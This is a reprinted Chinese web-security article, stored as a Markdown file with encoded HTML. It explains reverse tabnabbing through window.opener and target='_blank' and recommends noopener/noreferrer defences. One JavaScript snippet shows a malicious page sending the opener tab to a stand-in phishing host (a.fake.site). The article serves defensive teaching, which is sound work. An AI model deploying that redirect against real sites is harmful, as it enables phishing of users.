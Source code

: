 ```yaml
---
title: 你不曾察觉的隐患：危险的 target="_blank" 与 “opener”
hidden: true
categories: [reprint]
slug: 3aa5de53
date: 2018-11-09 02:30:05
---
```


{{< raw >}}
<blockquote>&#x5728;&#x7F51;&#x9875;&#x4E2D;&#x4F7F;&#x7528;&#x94FE;&#x63A5;&#x65F6;&#xFF0C;&#x5982;&#x679C;&#x60F3;&#x8981;&#x8BA9;&#x6D4F;&#x89C8;&#x5668;&#x81EA;&#x52A8;&#x5728;&#x65B0;&#x7684;&#x6807;&#x7B7E;&#x9875;&#x6253;&#x5F00;&#x6307;&#x5B9A;&#x7684;&#x5730;&#x5740;&#xFF0C;&#x901A;&#x5E38;&#x7684;&#x505A;&#x6CD5;&#x5C31;&#x662F;&#x5728; <code>a</code> &#x6807;&#x7B7E;&#x4E0A;&#x6DFB;&#x52A0; <code>target&#x7B49;&#x4E8E;&quot;_blank&quot;</code> &#x5C5E;&#x6027;&#x3002;<br>&#x7136;&#x800C;&#xFF0C;&#x5C31;&#x662F;&#x8FD9;&#x4E2A;&#x5C5E;&#x6027;&#xFF0C;&#x4E3A;&#x9493;&#x9C7C;&#x653B;&#x51FB;&#x8005;&#x5E26;&#x6765;&#x4E86;&#x53EF;&#x4E58;&#x4E4B;&#x673A;&#x3002;</blockquote><p><span class="img-wrap"><img data-src="/img/bVbg33P?w=1200&amp;h=600" src="https://static.alili.tech/img/bVbg33P?w=1200&amp;h=600" alt="" title="" style="cursor:pointer;display:inline"></span></p><h1 id="articleHeader0">&#x8D77;&#x6E90;</h1><h2 id="articleHeader1"><code>parent</code> &#x4E0E; <code>opener</code></h2><p>&#x5728;&#x8BF4; <code>opener</code> &#x4E4B;&#x524D;&#xFF0C;&#x53EF;&#x4EE5;&#x5148;&#x804A;&#x804A; <code>&lt;iframe&gt;</code> &#x4E2D;&#x7684; <code>parent</code>&#x3002;</p><p>&#x6211;&#x4EEC;&#x77E5;&#x9053;&#xFF0C;&#x5728; <code>&lt;iframe&gt;</code> &#x4E2D;&#x63D0;&#x4F9B;&#x4E86;&#x4E00;&#x4E2A;&#x7528;&#x4E8E;&#x7236;&#x5B50;&#x9875;&#x9762;&#x4EA4;&#x4E92;&#x7684;&#x5BF9;&#x8C61;&#xFF0C;&#x53EB;&#x505A; <code>window.parent</code>&#xFF0C;&#x6211;&#x4EEC;&#x53EF;&#x4EE5;&#x901A;&#x8FC7; <code>window.parent</code> &#x5BF9;&#x8C61;&#x6765;&#x4ECE;&#x6846;&#x67B6;&#x4E2D;&#x7684;&#x9875;&#x9762;&#x8BBF;&#x95EE;&#x7236;&#x7EA7;&#x9875;&#x9762;&#x7684; <code>window</code>&#x3002;</p><p><code>opener</code> &#x4E0E; <code>parent</code> &#x4E00;&#x6837;&#xFF0C;&#x53EA;&#x4E0D;&#x8FC7;&#x662F;&#x7528;&#x4E8E; <code>&lt;a target=&quot;_blank&quot;&gt;</code> &#x5728;&#x65B0;&#x6807;&#x7B7E;&#x9875;&#x6253;&#x5F00;&#x7684;&#x9875;&#x9762;&#x7684;&#x3002;&#x901A;&#x8FC7; <code>&lt;a target=&quot;_blank&quot;&gt;</code> &#x6253;&#x5F00;&#x7684;&#x9875;&#x9762;&#xFF0C;&#x53EF;&#x4EE5;&#x76F4;&#x63A5;&#x4F7F;&#x7528; <code>window.opener</code> &#x6765;&#x8BBF;&#x95EE;&#x6765;&#x6E90;&#x9875;&#x9762;&#x7684; <code>window</code> &#x5BF9;&#x8C61;&#x3002;</p><h2 id="articleHeader2">&#x540C;&#x57DF;&#x4E0E;&#x8DE8;&#x57DF;</h2><p>&#x6D4F;&#x89C8;&#x5668;&#x63D0;&#x4F9B;&#x4E86;&#x5B8C;&#x6574;&#x7684;&#x8DE8;&#x57DF;&#x4FDD;&#x62A4;&#xFF0C;&#x5728;&#x57DF;&#x540D;&#x76F8;&#x540C;&#x65F6;&#xFF0C;<code>parent</code> &#x5BF9;&#x8C61;&#x548C; <code>opener</code> &#x5BF9;&#x8C61;&#x5B9E;&#x9645;&#x4E0A;&#x5C31;&#x76F4;&#x63A5;&#x662F;&#x4E0A;&#x4E00;&#x7EA7;&#x7684; <code>window</code> &#x5BF9;&#x8C61;&#xFF1B;&#x800C;&#x5F53;&#x57DF;&#x540D;&#x4E0D;&#x540C;&#x65F6;&#xFF0C;<code>parent</code> &#x548C; <code>opener</code> &#x5219;&#x662F;&#x7ECF;&#x8FC7;&#x5305;&#x88C5;&#x7684;&#x4E00;&#x4E2A; <code>global</code> &#x5BF9;&#x8C61;&#x3002;&#x8FD9;&#x4E2A; <code>global</code> &#x5BF9;&#x8C61;&#x4EC5;&#x63D0;&#x4F9B;&#x975E;&#x5E38;&#x6709;&#x9650;&#x7684;&#x5C5E;&#x6027;&#x8BBF;&#x95EE;&#xFF0C;&#x5E76;&#x4E14;&#x5728;&#x8FD9;&#x4EC5;&#x6709;&#x7684;&#x51E0;&#x4E2A;&#x5C5E;&#x6027;&#x4E2D;&#xFF0C;&#x5927;&#x90E8;&#x5206;&#x4E5F;&#x90FD;&#x662F;&#x4E0D;&#x5141;&#x8BB8;&#x8BBF;&#x95EE;&#x7684;&#xFF08;&#x8BBF;&#x95EE;&#x4F1A;&#x76F4;&#x63A5;&#x629B;&#x51FA; <code>DOMException</code>&#xFF09;&#x3002;</p><p><span class="img-wrap"><img data-src="/img/bVbg33S?w=729&amp;h=42" src="https://static.alili.tech/img/bVbg33S?w=729&amp;h=42" alt="" title="" style="cursor:pointer;display:inline"></span></p><p><span class="img-wrap"><img data-src="/img/bVbg33T?w=729&amp;h=42" src="https://static.alili.tech/img/bVbg33T?w=729&amp;h=42" alt="" title="" style="cursor:pointer;display:inline"></span></p><p>&#x5728; <code>&lt;iframe&gt;</code> &#x4E2D;&#xFF0C;&#x63D0;&#x4F9B;&#x4E86;&#x4E00;&#x4E2A; <code>sandbox</code> &#x5C5E;&#x6027;&#x7528;&#x4E8E;&#x63A7;&#x5236;&#x6846;&#x67B6;&#x4E2D;&#x7684;&#x9875;&#x9762;&#x7684;&#x6743;&#x9650;&#xFF0C;&#x56E0;&#x6B64;&#x5373;&#x4F7F;&#x662F;&#x540C;&#x57DF;&#xFF0C;&#x4E5F;&#x53EF;&#x4EE5;&#x63A7;&#x5236; <code>&lt;iframe&gt;</code> &#x7684;&#x5B89;&#x5168;&#x6027;&#x3002;</p><h1 id="articleHeader3">&#x5229;&#x7528;</h1><p>&#x5982;&#x679C;&#xFF0C;&#x4F60;&#x7684;&#x7F51;&#x7AD9;&#x4E0A;&#x6709;&#x4E00;&#x4E2A;&#x94FE;&#x63A5;&#xFF0C;&#x4F7F;&#x7528;&#x4E86; <code>target=&quot;_blank&quot;</code>&#xFF0C;&#x90A3;&#x4E48;&#x4E00;&#x65E6;&#x7528;&#x6237;&#x70B9;&#x51FB;&#x8FD9;&#x4E2A;&#x94FE;&#x63A5;&#x5E76;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x65B0;&#x7684;&#x6807;&#x7B7E;&#xFF0C;&#x65B0;&#x6807;&#x7B7E;&#x4E2D;&#x7684;&#x9875;&#x9762;&#x5982;&#x679C;&#x5B58;&#x5728;&#x6076;&#x610F;&#x4EE3;&#x7801;&#xFF0C;&#x5C31;&#x53EF;&#x4EE5;&#x5C06;&#x4F60;&#x7684;&#x7F51;&#x7AD9;&#x76F4;&#x63A5;&#x5BFC;&#x822A;&#x5230;&#x4E00;&#x4E2A;&#x865A;&#x5047;&#x7F51;&#x7AD9;&#x3002;&#x6B64;&#x65F6;&#xFF0C;&#x5982;&#x679C;&#x7528;&#x6237;&#x56DE;&#x5230;&#x4F60;&#x7684;&#x6807;&#x7B7E;&#x9875;&#xFF0C;&#x770B;&#x5230;&#x7684;&#x5C31;&#x662F;&#x88AB;&#x66FF;&#x6362;&#x8FC7;&#x7684;&#x9875;&#x9762;&#x4E86;&#x3002;</p><h2 id="articleHeader4">&#x8BE6;&#x7EC6;&#x6B65;&#x9AA4;</h2><ol><li><p>&#x5728;&#x4F60;&#x7684;&#x7F51;&#x7AD9; <code>https://example.com</code> &#x4E0A;&#x5B58;&#x5728;&#x4E00;&#x4E2A;&#x94FE;&#x63A5;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre></li><li><p>&#x7528;&#x6237;&#x70B9;&#x51FB;&#x4E86;&#x8FD9;&#x4E2A;&#x94FE;&#x63A5;&#xFF0C;&#x5728;&#x65B0;&#x7684;&#x6807;&#x7B7E;&#x9875;&#x6253;&#x5F00;&#x4E86;&#x8FD9;&#x4E2A;&#x7F51;&#x7AD9;&#x3002;&#x8FD9;&#x4E2A;&#x7F51;&#x7AD9;&#x53EF;&#x4EE5;&#x901A;&#x8FC7; HTTP Header &#x4E2D;&#x7684; <code>Referer</code> &#x5C5E;&#x6027;&#x6765;&#x5224;&#x65AD;&#x7528;&#x6237;&#x7684;&#x6765;&#x6E90;&#x3002;</p><p>&#x5E76;&#x4E14;&#xFF0C;&#x8FD9;&#x4E2A;&#x7F51;&#x7AD9;&#x4E0A;&#x5305;&#x542B;&#x7740;&#x7C7B;&#x4F3C;&#x4E8E;&#x8FD9;&#x6837;&#x7684; JavaScript &#x4EE3;&#x7801;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="const url = encodeURIComponent(&apos;{{header.referer}}&apos;);
window.opener.location.replace(&apos;https://a.fake.site/?&apos; + url);" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="javascript hljs"><code class="javascript"><span class="hljs-keyword">const</span> url = <span class="hljs-built_in">encodeURIComponent</span>(<span class="hljs-string">&apos;{{header.referer}}&apos;</span>);
<span class="hljs-built_in">window</span>.opener.location.replace(<span class="hljs-string">&apos;https://a.fake.site/?&apos;</span> + url);</code></pre></li><li>&#x6B64;&#x65F6;&#xFF0C;&#x7528;&#x6237;&#x5728;&#x7EE7;&#x7EED;&#x6D4F;&#x89C8;&#x8FD9;&#x4E2A;&#x65B0;&#x7684;&#x6807;&#x7B7E;&#x9875;&#xFF0C;&#x800C;&#x539F;&#x6765;&#x7684;&#x7F51;&#x7AD9;&#x6240;&#x5728;&#x7684;&#x6807;&#x7B7E;&#x9875;&#x6B64;&#x65F6;&#x5DF2;&#x7ECF;&#x88AB;&#x5BFC;&#x822A;&#x5230;&#x4E86; <code>https://a.fake.site/?https%3A%2F%2Fexample.com%2F</code>&#x3002;</li><li>&#x6076;&#x610F;&#x7F51;&#x7AD9; <code>https://a.fake.site</code> &#x6839;&#x636E; Query String &#x6765;&#x4F2A;&#x9020;&#x4E00;&#x4E2A;&#x8DB3;&#x4EE5;&#x6B3A;&#x9A97;&#x7528;&#x6237;&#x7684;&#x9875;&#x9762;&#xFF0C;&#x5E76;&#x5C55;&#x793A;&#x51FA;&#x6765;&#xFF08;&#x671F;&#x95F4;&#x8FD8;&#x53EF;&#x4EE5;&#x505A;&#x4E00;&#x6B21;&#x8DF3;&#x8F6C;&#xFF0C;&#x4F7F;&#x5F97;&#x6D4F;&#x89C8;&#x5668;&#x7684;&#x5730;&#x5740;&#x680F;&#x66F4;&#x5177;&#x6709;&#x8FF7;&#x60D1;&#x6027;&#xFF09;&#x3002;</li><li>&#x7528;&#x6237;&#x5173;&#x95ED; <code>https://an.evil.site</code> &#x7684;&#x6807;&#x7B7E;&#x9875;&#xFF0C;&#x56DE;&#x5230;&#x539F;&#x6765;&#x7684;&#x7F51;&#x7AD9;&#x2026;&#x2026;&#x2026;&#x2026;&#x2026;&#x2026;&#x5DF2;&#x7ECF;&#x56DE;&#x4E0D;&#x53BB;&#x4E86;&#x3002;</li></ol><blockquote>&#x4E0A;&#x9762;&#x7684;&#x653B;&#x51FB;&#x6B65;&#x9AA4;&#x662F;&#x5728;&#x8DE8;&#x57DF;&#x7684;&#x60C5;&#x51B5;&#x4E0B;&#x7684;&#xFF0C;&#x5728;&#x8DE8;&#x57DF;&#x60C5;&#x51B5;&#x4E0B;&#xFF0C;<code>opener</code> &#x5BF9;&#x8C61;&#x548C; <code>parent</code> &#x4E00;&#x6837;&#xFF0C;&#x662F;&#x53D7;&#x5230;&#x9650;&#x5236;&#x7684;&#xFF0C;&#x4EC5;&#x63D0;&#x4F9B;&#x975E;&#x5E38;&#x6709;&#x9650;&#x7684;&#x5C5E;&#x6027;&#x8BBF;&#x95EE;&#xFF0C;&#x5E76;&#x4E14;&#x5728;&#x8FD9;&#x4EC5;&#x6709;&#x7684;&#x51E0;&#x4E2A;&#x5C5E;&#x6027;&#x4E2D;&#xFF0C;&#x5927;&#x90E8;&#x5206;&#x4E5F;&#x90FD;&#x662F;&#x4E0D;&#x5141;&#x8BB8;&#x8BBF;&#x95EE;&#x7684;&#xFF08;&#x8BBF;&#x95EE;&#x4F1A;&#x76F4;&#x63A5;&#x629B;&#x51FA; <code>DOMException</code>&#xFF09;&#x3002;<p>&#x4F46;&#x662F;&#x4E0E; <code>parent</code> &#x4E0D;&#x540C;&#x7684;&#x662F;&#xFF0C;<strong>&#x5728;&#x8DE8;&#x57DF;&#x7684;&#x60C5;&#x51B5;&#x4E0B;&#xFF0C;<code>opener</code> &#x4ECD;&#x7136;&#x53EF;&#x4EE5;&#x8C03;&#x7528; <code>location.replace</code> &#x65B9;&#x6CD5;</strong>&#x800C; <code>parent</code> &#x5219;&#x4E0D;&#x53EF;&#x4EE5;&#x3002;</p><p>&#x5982;&#x679C;&#x662F;&#x5728;&#x540C;&#x57DF;&#x7684;&#x60C5;&#x51B5;&#x4E0B;&#xFF08;&#x6BD4;&#x5982;&#x4E00;&#x4E2A;&#x7F51;&#x7AD9;&#x4E0A;&#x7684;&#x67D0;&#x4E00;&#x4E2A;&#x9875;&#x9762;&#x88AB;&#x690D;&#x5165;&#x4E86;&#x6076;&#x610F;&#x4EE3;&#x7801;&#xFF09;&#xFF0C;&#x5219;&#x60C5;&#x51B5;&#x8981;&#x6BD4;&#x4E0A;&#x9762;&#x4E25;&#x91CD;&#x5F97;&#x591A;&#x3002;</p></blockquote><h1 id="articleHeader5">&#x9632;&#x5FA1;</h1><p><code>&lt;iframe&gt;</code> &#x4E2D;&#x6709; <code>sandbox</code> &#x5C5E;&#x6027;&#xFF0C;&#x800C;&#x94FE;&#x63A5;&#xFF0C;&#x5219;&#x53EF;&#x4EE5;&#x4F7F;&#x7528;&#x4E0B;&#x9762;&#x7684;&#x529E;&#x6CD5;&#xFF1A;</p><h2 id="articleHeader6">1. Referrer Policy &#x548C; noreferrer</h2><p>&#x4E0A;&#x9762;&#x7684;&#x653B;&#x51FB;&#x6B65;&#x9AA4;&#x4E2D;&#xFF0C;&#x7528;&#x5230;&#x4E86; HTTP Header &#x4E2D;&#x7684; <code>Referer</code> &#x5C5E;&#x6027;&#xFF0C;&#x5B9E;&#x9645;&#x4E0A;&#x53EF;&#x4EE5;&#x5728; HTTP &#x7684;&#x54CD;&#x5E94;&#x5934;&#x4E2D;&#x589E;&#x52A0; <code>Referrer Policy</code> &#x5934;&#x6765;&#x4FDD;&#x8BC1;&#x6765;&#x6E90;&#x9690;&#x79C1;&#x5B89;&#x5168;&#x3002;</p><p><code>Referrer Policy</code> &#x9700;&#x8981;&#x4FEE;&#x6539;&#x540E;&#x7AEF;&#x4EE3;&#x7801;&#x6765;&#x5B9E;&#x73B0;&#xFF0C;&#x800C;&#x5728;&#x524D;&#x7AEF;&#xFF0C;&#x4E5F;&#x53EF;&#x4EE5;&#x4F7F;&#x7528; <code>&lt;a&gt;</code> &#x6807;&#x7B7E;&#x7684; <code>rel</code> &#x5C5E;&#x6027;&#x6765;&#x6307;&#x5B9A; <code>rel=&quot;noreferrer&quot;</code> &#x6765;&#x4FDD;&#x8BC1;&#x6765;&#x6E90;&#x9690;&#x79C1;&#x5B89;&#x5168;&#x3002;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot; rel=&quot;noreferrer&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span> <span class="hljs-attr">rel</span>=<span class="hljs-string">&quot;noreferrer&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre><blockquote>&#x4F46;&#x662F;&#x8981;&#x6CE8;&#x610F;&#x7684;&#x662F;&#xFF1A;&#x5373;&#x4F7F;&#x9650;&#x5236;&#x4E86; <code>referer</code> &#x7684;&#x4F20;&#x9012;&#xFF0C;&#x4ECD;&#x7136;&#x4E0D;&#x80FD;&#x963B;&#x6B62;&#x539F;&#x6807;&#x7B7E;&#x88AB;&#x6076;&#x610F;&#x8DF3;&#x8F6C;&#x3002;</blockquote><h2 id="articleHeader7">2. noopener</h2><p>&#x4E3A;&#x4E86;&#x5B89;&#x5168;&#xFF0C;&#x73B0;&#x4EE3;&#x6D4F;&#x89C8;&#x5668;&#x90FD;&#x652F;&#x6301;&#x5728; <code>&lt;a&gt;</code> &#x6807;&#x7B7E;&#x7684; <code>rel</code> &#x5C5E;&#x6027;&#x4E2D;&#x6307;&#x5B9A; <code>rel=&quot;noopener&quot;</code>&#xFF0C;&#x8FD9;&#x6837;&#xFF0C;&#x5728;&#x6253;&#x5F00;&#x7684;&#x65B0;&#x6807;&#x7B7E;&#x9875;&#x4E2D;&#xFF0C;&#x5C06;&#x65E0;&#x6CD5;&#x518D;&#x4F7F;&#x7528; <code>opener</code> &#x5BF9;&#x8C61;&#x4E86;&#xFF0C;&#x5B83;&#x4E3A;&#x8BBE;&#x7F6E;&#x4E3A;&#x4E86; <code>null</code>&#x3002;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot; rel=&quot;noopener&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span> <span class="hljs-attr">rel</span>=<span class="hljs-string">&quot;noopener&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre><h2 id="articleHeader8">3. JavaScript</h2><p><code>noopener</code> &#x5C5E;&#x6027;&#x770B;&#x4F3C;&#x662F;&#x89E3;&#x51B3;&#x4E86;&#x6240;&#x6709;&#x95EE;&#x9898;&#xFF0C;&#x4F46;&#x662F;...&#x6D4F;&#x89C8;&#x5668;&#x7684;&#x517C;&#x5BB9;&#x6027;&#x95EE;&#x9898;...</p><p><span class="img-wrap"><img data-src="/img/bVbg33Y?w=1200&amp;h=814" src="https://static.alili.tech/img/bVbg33Y?w=1200&amp;h=814" alt="" title="" style="cursor:pointer;display:inline"></span></p><p>&#x53EF;&#x4EE5;&#x770B;&#x5230;&#xFF0C;&#x73B0;&#x5728;&#x7EDD;&#x5927;&#x591A;&#x6570;&#x6D4F;&#x89C8;&#x5668;&#x90FD;&#x5DF2;&#x7ECF;&#x517C;&#x5BB9;&#x4E86; <code>rel=&quot;noopener&quot;</code> &#x5C5E;&#x6027;&#x4E86;&#x3002;&#x4F46;&#x662F;&#xFF0C;&#x4E3A;&#x4E86;&#x4FDD;&#x62A4;&#x7A0D;&#x65E7;&#x7684;&#x201C;&#x8FD1;&#x4EE3;&#x201D;&#x6D4F;&#x89C8;&#x5668;&#x6216;&#x662F;&#x5F88;&#x65E7;&#x7684;&#x201C;&#x53E4;&#x4EE3;&#x201D;&#x6D4F;&#x89C8;&#x5668;&#x751A;&#x81F3;&#x662F;&#x201C;&#x8FDC;&#x53E4;&#x201D;&#x6D4F;&#x89C8;&#x5668;&#xFF0C;&#x53EA;&#x6709; <code>noopener</code> &#x5C5E;&#x6027;&#x8FD8;&#x662F;&#x8FDC;&#x8FDC;&#x4E0D;&#x591F;&#x7684;&#x3002;</p><p>&#x8FD9;&#x65F6;&#xFF0C;&#x5C31;&#x53EA;&#x80FD;&#x8BF7;&#x51FA;&#x4E0B;&#x9762;&#x8FD9;&#x6BB5;&#x539F;&#x751F; JavaScript &#x6765;&#x5E2E;&#x5FD9;&#x4E86;&#x3002;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&quot;use strict&quot;;
function openUrl(url) {
  var newTab = window.open();
  newTab.opener = null;
  newTab.location = url;
}" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="hljs javascript"><code><span class="hljs-meta">&quot;use strict&quot;</span>;
<span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">openUrl</span>(<span class="hljs-params">url</span>) </span>{
  <span class="hljs-keyword">var</span> newTab = <span class="hljs-built_in">window</span>.open();
  newTab.opener = <span class="hljs-literal">null</span>;
  newTab.location = url;
}</code></pre><h1 id="articleHeader9">&#x63A8;&#x8350;</h1><p>&#x9996;&#x5148;&#xFF0C;&#x5728;&#x7F51;&#x7AD9;&#x4E2D;&#x7684;&#x94FE;&#x63A5;&#x4E0A;&#xFF0C;&#x5982;&#x679C;&#x4F7F;&#x7528;&#x4E86; <code>target=&quot;_blank&quot;</code>&#xFF0C;&#x5C31;&#x8981;&#x5E26;&#x4E0A; <code>rel=&quot;noopener&quot;</code>&#xFF0C;&#x5E76;&#x4E14;&#x5EFA;&#x8BAE;&#x5E26;&#x4E0A; <code>rel=&quot;noreferrer&quot;</code>&#x3002;&#x7C7B;&#x4F3C;&#x4E8E;&#x8FD9;&#x6837;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot; rel=&quot;noopener noreferrer&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span> <span class="hljs-attr">rel</span>=<span class="hljs-string">&quot;noopener noreferrer&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre><p>&#x5F53;&#x7136;&#xFF0C;&#x5728;&#x8DF3;&#x8F6C;&#x5230;&#x7B2C;&#x4E09;&#x65B9;&#x7F51;&#x7AD9;&#x7684;&#x65F6;&#x5019;&#xFF0C;&#x4E3A;&#x4E86; SEO &#x6743;&#x91CD;&#xFF0C;&#x8FD8;&#x5EFA;&#x8BAE;&#x5E26;&#x4E0A; <code>rel=&quot;nofollow&quot;</code>&#xFF0C;&#x6240;&#x4EE5;&#x6700;&#x7EC8;&#x7C7B;&#x4F3C;&#x4E8E;&#x8FD9;&#x6837;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot; rel=&quot;noopener noreferrer nofollow&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" 